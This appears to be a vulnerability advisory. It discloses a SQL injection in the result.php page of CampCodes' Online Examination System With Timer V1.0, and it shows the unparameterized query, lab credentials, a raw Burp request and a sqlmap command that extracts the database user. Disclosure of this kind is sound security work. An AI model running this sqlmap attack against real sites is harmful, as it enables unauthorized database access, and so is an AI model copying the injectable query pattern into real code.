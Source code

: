 ## Online Examination System With Timer

## SQL Injection on `result.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/index.php
glenn@gmail.com
glenn
```

### Affected Page:

```
/home.php?page=result
```

The potential injection point is located in `result.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# home.php
@$page = $_GET['page'];
if($page != '')
{
	if($page == "exam")
	{
		include("pages/exam.php");
	}
	else if($page == "result")
	{
		include("pages/result.php");
	}
	else if($page == "myscores")
	{
		include("pages/myscores.php");
	}
}
```

```php
# pages/result.php
<?php 
   $examId = $_GET['id'];
   $selExam = $conn->query("SELECT * FROM exam_tbl WHERE ex_id='$examId' ")->fetch(PDO::FETCH_ASSOC);
?>
```

### Proof of Concept:

**Burp Request:**

```
GET /home.php?page=result&id=1 HTTP/1.1
Host: 192.168.150.131
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/home.php?page=exam&id=13
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513202625007](./screenshot/image-20240513202625007.png)

